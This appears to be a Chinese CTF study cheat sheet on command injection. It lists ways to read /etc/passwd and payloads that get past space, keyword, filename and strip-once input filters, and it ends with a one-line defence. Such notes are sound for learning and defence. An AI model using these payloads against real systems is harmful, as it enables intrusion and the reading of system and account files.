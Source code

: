 【考点】grep、diff

```
cat /etc/passwd   顺序读取
tac /etc/passwd   倒序读取
head /etc/passwd
tail /etc/passwd
more /etc/passwd
less /etc/passwd
grep '' /etc/passwd          grep . /etc/passwd     过滤输出
awk {print} /etc/passwd     按照指定格式解析输出或者指定某几行输出
sed '' /etc/passwd      修改文件内容
cp /etc/passwd /dev/stdout    复制
diff /etc/passwd /etc/hostname   对比
xxd /etc/passwd    输出二进制
od -a /etc/passwd    二进制
nl /etc/passwd    带行号输出
sort /etc/passwd  排序
uniq /etc/passwd
base64 /etc/passwd  绕过输出的内容（关键字）过滤
curl file：////etc/passwd
```

## 空格过滤

cat$IFS$9/etc/passwd

cat${IFS}/etc/passwd

cat</etc/passwd

cat<>/etc/passwd

{cat,/etc/passwd}

f=$'\x20/etc/passwd'&&cat$f

## 指令关键字过滤

c''at /etc/passwd             （此处为一对单引号）

ca\t /etc/passwd

## 文件名关键字过滤

cat /etc/passw*       通配符

## 替换为空

cacatt /etc/passwd

## 防范方式

1.尽量不要使用命令执行函数

